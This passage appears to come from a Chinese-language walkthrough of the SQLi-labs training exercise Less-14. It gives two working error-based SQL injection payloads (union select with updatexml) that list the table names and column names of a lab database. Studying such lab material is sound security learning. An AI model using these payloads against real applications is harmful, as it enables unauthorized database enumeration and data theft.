

+ 爆破数据表名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),0x7e),1)#
~~~

![Less-14_10](./img/Less-14_10.PNG)



+ 爆破数据字段名

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users'),0x7e),1)#
~~~
